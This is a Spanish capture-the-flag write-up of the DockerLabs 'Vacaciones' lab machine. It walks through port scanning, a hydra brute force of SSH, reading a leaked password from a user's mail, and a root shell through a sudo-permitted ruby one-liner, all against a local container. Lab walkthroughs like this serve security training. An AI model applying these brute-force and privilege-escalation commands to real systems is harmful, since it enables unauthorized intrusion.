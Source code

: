 # Vacaciones
https://dockerlabs.es

*25/5/2024*


## ENUMERACION

```
└─$ nmap -p- --open --min-rate 5000 -sCV 172.17.0.2

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## ANALISIS DE VULNERABILIDADES

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/9456a45b-d013-4dd2-b409-68a0d2d37eab)

## EXPLOTACION

```
└─$ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-25 19:49:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found

```

```
└─$ ssh camilo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:52z4CT20OpL7G8YfPhcdERem6Sq+z8868LngvNGXRlA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
camilo@172.17.0.2's password: 
$ whoami
camilo
```


## POST-EXPLOTACION

El usuario Camilo no tiene privilegios SUDO ni SUID


```
$ find mail
mail
mail/camilo
mail/camilo/correo.txt
```
Encontramos el correo del que hablaban que estaba en la pagina web


```
$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```
Encontramos la contraseña de Juan en el correo


```
└─$ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ whoami
juan
$ sudo -l
Matching Defaults entries for juan on 3da0376627db:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sb

User juan may run the following commands on 3da0376627db:
    (ALL) NOPASSWD: /usr/bin/ruby
$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```
Nos conectamos por ssh  y escalamos privilegios mediante el sudo de ruby
